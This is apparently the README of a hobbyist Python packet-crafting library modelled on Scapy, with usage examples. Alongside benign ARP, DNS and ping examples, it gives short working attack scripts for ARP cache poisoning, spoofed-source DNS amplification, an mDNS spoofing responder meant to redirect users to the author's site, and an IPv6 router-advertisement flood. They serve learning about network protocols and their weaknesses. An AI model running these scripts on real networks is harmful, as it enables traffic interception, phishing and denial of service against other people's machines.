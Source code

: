 # OriScapy
This is a custom-made version of the well known [Scapy library for python](https://scapy.net/).

>Scapy is a powerful interactive packet manipulation program.
It is able to forge or decode packets of a wide number of protocols, 
send them on the wire, capture them, match requests and replies, and much more. (See Usage examples)


## Rationale
In my journey of learning about the fascinating world of Networking, I realised that Scapy    
is something im using all the time, without needing to worry about all the     
stuff it does in the background automatically.   
For example, when crafting an ARP request:

```python
pkt = Ether()/ARP(pdst="<Get_This_IP's_Mac")
mac = srp1(pkt)[ARP].hwsrc
```

Scapy automatically fills a good deal of fields of the ARP header.    
For instance, you don't have to worry about these fields:
```text
hwtype, ptype, hwlen, plen, op, hwsrc, psrc, hwdst      
```
Which Scapy automatically fills according to the [RFC Specification](https://datatracker.ietf.org/doc/html/rfc826) / [ARP packet header](https://en.wikipedia.org/wiki/Address_Resolution_Protocol#Packet_structure)

Also, no parameters were given to the `Ether` class constructor,   
although the Ethernet header obviously contains some info:
```text
dst, src, type
```

All those fields are automatically completed by Scapy for your own comfort.   
Scapy automatically detects the type of packet to be sent is ARP,  
And so it sets the `type` field to `0x806 (ARP)`, like it should be.   
Also, the `Source MAC` and the `Destination MAC` are automatically detected and filled.

And so I wanted for my knowledge about Networking, to learn more about  
the most famous packets' header format.   
And to do that I thought to make my own Scapy which would support    
firstly the most common headers, such as Ethernet, ARP, IP, ICMP, UDP
and TCP. Now the project supports more header types.

## Usage
**First of all, don't. Please just use [Scapy](https://pypi.org/project/scapy/).**   
But if you insist, then its basically the same as Scapy. Here are some examples:    
**__Note that OriScapy only works on Linux for sending and receiving packets.__**     
#### ARP Queries

```python
from All import *

ip = "192.168.1.2"

# Resolve 192.168.1.2's MAC Address
pkt = Ether()/ARP(pdst=ip)  # Everything is auto-completed :)
ans = sendreceive(pkt)
print(f"{ip}'s MAC address is {ans.hwsrc}")
```

#### ARP Spoofing/Cache Poisoning
```python
from All import *

def poison(target_ip, target_mac, fake_ip, fake_mac, count=50):
    pkt = Ether(src=fake_mac)/ARP(hwsrc=fake_mac, psrc=fake_ip, hwdst=target_mac, pdst=target_ip, opcode=2)
    for _ in range(count):
        send(pkt)

poison(pkt, count=50)

```


#### DNS Queries
(No support for Additional and Authorative RRs)
```python
from All import *  
  
# Resolve google.com by querying google's DNS server (8.8.8.8)  
pkt = Ether()/IP(pdst="8.8.8.8")/UDP(dport=53)/DNS(qd=DNSQR(qname="google.com"))  
ans = sendreceive(pkt, timeout=3)

for answer_record in ans.an:
    print(answer_record.rdata)
```

#### DNS Amplification
```python
from All import *

def dns_amp(target_ip):
    pkt = Ether()/IP(psrc=target_ip, dst="ip.of.dns.server")/UDP(dport=53)/DNS(rd=1, qd=DNSQR(qname="google.com", qtype=255))
    send(pkt)

dns_amp("192.168.1.2")
```

#### Resolve Hostname in LAN
```python
from All import *  
  
# To query the local LAN for the IP of hostname "myHostname"  
# a DNS Query is sent to multicast ip "224.0.0.251" and port 5353, also known as  
# multicast-DNS (mDNS). Inside the query, the qname should be "hostname"+".local"  
  
pkt = Ether()/IP(pdst="224.0.0.251")/UDP(dport=5353)/DNS(qd=DNSQR(qname="myHostname.local"))  
  
# IP may come back either to the multicast address, or directly to the host PC's IP.
# Which means that you can't tell whether a packet is an answer to `pkt` based on
# the dst and src IP inside it, so we set flipIP to False
ans = sendreceive(pkt, flipIP=False)  
  
for answer_record in ans.an:  
    print(answer_record.rdata)
```
    

#### mDNS Cache Poisoning 
```python
from All import *

myIpv4 = "192.168.1.47"

def ismatch_mdns(pkt: Ether):
    return UDP in pkt and 5353 in (pkt[UDP].sport, pkt[UDP].dport) and DNSQR in pkt

def onmatch_mdns(pkt: Ether):
    """
    Receives a mDNS packet and reply with a spoofed packet saying
    that myIpv4 is the IP of that mDNS domain name.

    For example, when a user mistypes "google" for e.g. "goggle", 
    the user's PC queries the LAN for Domain <=> IP using mDNS.
    At that point we reply with our own IP, and the user goes
    to our website thinking we're google.
    :param pkt: Ether
    :return: None
    """

    isIPv6 = IPv6 in pkt

    if isIPv6:
        psrc = pkt[IPv6].psrc
    else:
        psrc = pkt[IP].psrc
    
    sport = pkt[UDP].sport
    dport = pkt[UDP].dport
    name = pkt[DNSQR][0].qname

    print(f"Spoofing response for: {name} from ip: {psrc} -> {myIpv4}")

    eth = Ether(dst=pkt.src)
    udp = UDP(sport=dport, dport=sport)
    dns = DNS(id=pkt[DNS].id, aa=1, an=DNSRR(name=name, ttl=120, rdata=myIpv4))

    # Windows sends both IPv4 and IPv6 packets (with the same DNSQR), so we
    # need to check if the packet is IPv6 or IPv4 and send the correct packet.

    if isIPv6:
        spoofed_response = eth/IPv6(pdst=psrc)/udp/dns
    else:
        spoofed_response = eth/IP(pdst=psrc)/udp/dns

    send(spoofed_response)

sniff(ismatch_mdns, onmatch_mdns)

```

#### Router Advertisement Flood (AKA flood_router6)
```python
from All import *

# Floods all nodes (ff02::1) or a specific address
# (represented by fe80:xx...) with 500 router advertisements.

# hop limit of 255 is required (from the RFC of NDP).
# More documentation soon.

tgt = generateSoliAddr("fe80::xxxx:xxxx:xxxx:xxxx")  # or just ff02::1, which is every host 

for _ in range(500):
    srcmac = randomMac()
    psrc = randomIpv6(isLocal=True)
    prefix = randomIpv6(isPrefix=True)

    pkt = Ether(src=srcmac, dst="33:33:00:00:00:01")/IPv6(psrc=psrc, pdst=tgt, hoplimit=255)/NDPRouterAdv(srcmac, prefix)
    send(pkt)

```

#### Ping an IP
```python
from All import *

# Ping google's DNS server
pkt = Ether()/IP(pdst="8.8.8.8")/ICMP()
res = sendreceive(pkt, timeout=2)
print(res)
```



## Changelog
Added more helper functions:
    randomIpv6 and generateSoliAddr.   
Better NDPRouterAdv, which now forces receivers to generate an address using SLAAC.